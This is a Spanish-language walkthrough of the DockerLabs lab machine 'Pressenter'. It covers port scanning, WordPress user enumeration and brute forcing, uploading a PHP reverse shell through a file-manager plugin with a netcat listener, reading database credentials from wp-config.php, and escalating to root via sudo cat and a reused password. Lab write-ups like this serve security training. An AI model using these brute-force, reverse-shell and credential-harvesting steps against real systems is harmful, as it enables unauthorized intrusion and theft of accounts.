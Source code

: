 ```yaml
---
title: Pressenter - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | d1se0        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/1e7de8c9-352d-495c-a303-ac2df0163f02)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/3541d37b-ed61-4a33-8c81-007e43a2e26f)

# Exploración Web
Al acceder al puerto `80`, encontramos una página con un mensaje de inicio de reto. 
![image](https://github.com/user-attachments/assets/adcfc82b-bf2e-47ef-be51-5f096644bc53)

En el código fuente aparece un dominio oculto: `pressenter.hl`. Lo añadimos en `/etc/hosts` y accedemos nuevamente.

![image](https://github.com/user-attachments/assets/bfe294e8-3aa3-48dd-8c6e-894491656b12)

Observamos que el sitio usa WordPress, por lo que intentamos acceder a `wp-admin` y otros recursos de WordPress.

![image](https://github.com/user-attachments/assets/c01a2a13-8c20-4328-aa02-c205d2f0475c)

Usamos `WPSCAN` para enumerar los usuarios de WordPress:

```bash
wpscan --url http://pressenter.hl/ -e vp,cb,u
```

Identificamos dos usuarios: `pressi` y `hacker`.

## Fuerza bruta 

Ejecutamos fuerza bruta sobre `pressi` con el diccionario `rockyou.txt`:
```bash
wpscan --url http://pressenter.hl/ -U pressi -P /usr/share/wordlists/rockyou.txt 
```

![image](https://github.com/user-attachments/assets/d46efe6d-7489-43f4-925d-98915ec82f38)

Obtenemos la contraseña `dumbass` para `pressi` y accedemos al panel de WordPress.

![image](https://github.com/user-attachments/assets/6330cd25-7744-4289-9cbd-f88a0202a524)

# Reverse Shell

En el panel de WordPress, instalamos el plugin File Manager.

![image](https://github.com/user-attachments/assets/fea1d042-ab86-4ade-a8f1-4b831d2ba14a)

Aprovechamos la sección de subida de archivos para cargar una reverseshell en PHP. ara esto, generamos una reverseshell desde **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![image](https://github.com/user-attachments/assets/51f36ccf-e3a0-4fce-bcfb-5b3f8cba0d4e)

Iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:

```bash 
nc -lvnp 4444
```

Accedemos a la reverse shell a través del navegador:

![image](https://github.com/user-attachments/assets/ba14667e-c769-4e9c-9e3c-8ba8c46fbf3d)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/0cd9e20f-a723-41ff-8818-445f4d845005)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Intrusion con el usuario enter.

Identificamos al usuario `enter` en el sistema y exploramos el archivo `wp-config.php` en WordPress, donde encontramos las credenciales de la base de datos (`admin` / `rooteable`).

![image](https://github.com/user-attachments/assets/794d5a1f-48ea-4f17-b1b1-2c5f8eaacb71)

```bash
mysql -u admin --password=rooteable
```

Una vez en MySQL, exploramos la base de datos `wordpress` y buscamos en la tabla `wp_usernames`:

```sql
select*from wp_usernames;
```
```sql
+----+----------+-----------------+---------------------+
| id | username | password        | created_at          |
+----+----------+-----------------+---------------------+
|  1 | enter    | kernellinuxhack | 2024-08-22 13:18:04 |
+----+----------+-----------------+---------------------+
```

Esto nos proporciona la contraseña de enter: `kernellinuxhack`.

Con esto, cambiamos al usuario enter:

```bash
su enter
```

# Escalada de Privilegios 

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `cat` como `root` y `whoami` como `root` .Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/e72c8d19-7017-480f-9c15-c52d5fd1114a)

Exploramos la raíz de `enter` y encontramos `user.txt`, lo que sugiere que un archivo equivalente puede estar en el directorio `/root`. Como podemos usar `cat` como root, lo leemos:

![image](https://github.com/user-attachments/assets/7974fdd2-0ca0-4bb3-bf80-d8edb3b71112)

![image](https://github.com/user-attachments/assets/3c28faab-82ad-4216-b895-63a1ee64529d)

Alternativamente, al probar la misma contraseña de `enter` para root, conseguimos acceso root:

![image](https://github.com/user-attachments/assets/617bef1d-5194-41ab-9785-5e84b6eb268e)


